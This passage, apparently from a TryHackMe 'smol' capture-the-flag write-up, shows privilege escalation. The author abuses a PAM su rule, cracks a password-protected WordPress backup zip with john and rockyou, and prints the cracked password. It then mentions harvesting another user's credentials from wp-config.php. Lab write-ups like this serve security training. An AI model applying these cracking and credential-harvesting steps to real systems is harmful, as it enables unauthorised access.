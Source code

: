 -> I got lucky. Looking into what actually caused this, I found the cause

```
gege@smol:~$ find / -name su 2>/dev/null
/etc/pam.d/su
/usr/share/bash-completion/completions/su
/usr/bin/su
gege@smol:~$ cat /etc/pam.d/su
#
# The PAM configuration file for the Shadow `su' service
#

# This allows root to su without passwords (normal operation)
auth       sufficient pam_rootok.so
auth  [success=ignore default=1] pam_succeed_if.so user = gege
auth  sufficient                 pam_succeed_if.so use_uid user = think
```

-> Trying to unzip the file, I found that it was password protected. 

```
gege@smol:~$ unzip wordpress.old.zip 
Archive:  wordpress.old.zip
   creating: wordpress.old/
[wordpress.old.zip] wordpress.old/wp-config.php password: 
```

-> Transferring over the file to the attacker machine and using john to get the password

```┌──(kali㉿kali)-[~/Downloads/THM/smol_THM]
└─$ john ziphash --wordlist=/usr/share/wordlists/rockyou.txt          
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hero_gege@hotmail.com (wordpress.old.zip)
```

-> After unzipping the file and going through its contents, we find the user xavi's password in wp-config.php

![](attachments/Pasted%20image%2020250625171905.png)
